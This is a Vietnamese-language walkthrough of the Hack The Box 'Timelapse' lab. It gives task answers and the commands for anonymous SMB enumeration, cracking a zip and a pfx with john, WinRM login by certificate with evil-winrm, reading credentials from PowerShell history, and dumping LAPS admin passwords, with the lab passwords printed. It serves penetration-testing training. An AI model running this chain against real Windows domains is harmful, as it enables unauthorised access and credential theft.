## Task 1


Quét thông tin bằng rustscan


> dc01.timelapse.htb
## Task 2


> 445
## Task 3


> zip2john
## Task 4


> pfx2john
## Task 5


> 5985
## Task 6


Chúng ta có thể dùng lệnh help để xem các option


> -k
## User Flag
Chúng ta thực hiện quét SMB xem có thư mục nào có thể truy cập bằng anonymous không?
```bash
smbclient -L //dc01.timelapse.htb/ -N
```


Có thư mục Shares có vẻ đáng ngờ, điều tra sâu hơn
```bash
smbclient //dc01.timelapse.htb/Shares -N
```



Thu thập được các file bên trong


Tuy nhiên file zip có mật khẩu nên chúng ta tiến hành crack với john
```bash
zip2john winrm_backup.zip > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
Chúng ta thu được mật khẩu


Chúng ta thu được file `legacyy_dev_auth.pfx` nhưng file này cũng dính mật khẩu, tiến hành crack tiếp


```bash
pfx2john legacyy_dev_auth.pfx > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
Chúng ta tìm được mật khẩu


Chúng ta sẽ tiến hành extract vì file pfx sẽ chứa certificate và key của winrm (theo tên file)
```bash
# Extract private key
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes

# Extract certificate
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.pem

# Login WinRM bằng certificate
evil-winrm -i dc01.timelapse.htb -c cert.pem -k key.pem -S
```
Flag `-S` bật SSL vì WinRM certificate auth dùng port **5986** (HTTPS). Chúng ta sẽ có được session của user Legacyy


Tiến hành tìm flag ở User Desktop

## Task 8


> $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
## Task 9


Chúng ta sẽ đọc history file
```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


Chúng ta thu thập được credentials của **`svc_deploy`** — password `E3R$Q62^12p7PLlC%KWaxuaV`

> svc_deploy
## Task 10


Tìm thông tin của user thu thập được từ domain đổi account để recon
```bash
evil-winrm -i dc01.timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```
Thực hiện recon
```powershell
whoami /groups
```
Chúng ta sẽ thấy được 1 group không phải default của window


> LAPS_Readers
## Task 11


> Local Administrator Password Solution
## Task 12


> ms-Mcs-AdmPwd
## Root Flag
Vì user đang có quyền đọc LAPS nên chúng ta tiến hành sử dụng
```powershell
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | Select Name, ms-Mcs-AdmPwd
```

Chúng ta sẽ có luôn password Administrator ở DC01
```bash
evil-winrm -i dc01.timelapse.htb -u Administrator -p 'n@Ws!,8Y5V0)M$aGL.!Xaw[2' -S
```



